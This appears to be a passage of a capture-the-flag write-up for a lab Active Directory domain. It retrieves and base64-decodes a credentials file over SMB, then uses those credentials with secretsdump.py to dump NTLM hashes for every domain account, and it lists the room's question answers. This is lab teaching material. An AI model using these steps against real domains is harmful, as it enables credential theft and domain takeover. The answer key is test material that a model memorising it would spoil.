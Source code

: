 ```bash
ORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 00:38:39 2020
  ..                                  D        0  Sun Apr  5 00:38:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 00:38:53 2020

		8247551 blocks of size 4096. 3648829 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 

```
- Inside it there is a `base64` encoded string `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`. If we decode it using `cat backup_credentials.txt |base64 -d` command we will get `backup@spookysec.local:backup2517860`.
- Question `What utility can we use to map remote SMB shares?` Answer `smbclient`
- Question `Which option will list shares?` Answer `-L`
- Question `How many remote shares is the server listing?` Answer `6`
- Question `There is one particular share that we have access to that contains a text file. Which share is it?` Answer `backup`
- Question `What is the content of the file?` Answer `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`
- Question `Decoding the contents of the file, what is the full contents?` Answer `backup@spookysec.local:backup2517860`

## Elevating Privileges within the Domain

- We can dump password hashes, as backup account has that permission using `secretsdump.py -dc-ip spookysec.local backup:backup251786@spookysec.local` command.

```bash
secretsdump.py -dc-ip spookysec.local backup:backup2517860@spookysec.local
Impacket v0.12.0.dev1+20240807.21946.829239e - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213*******97260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
.........
..............
```
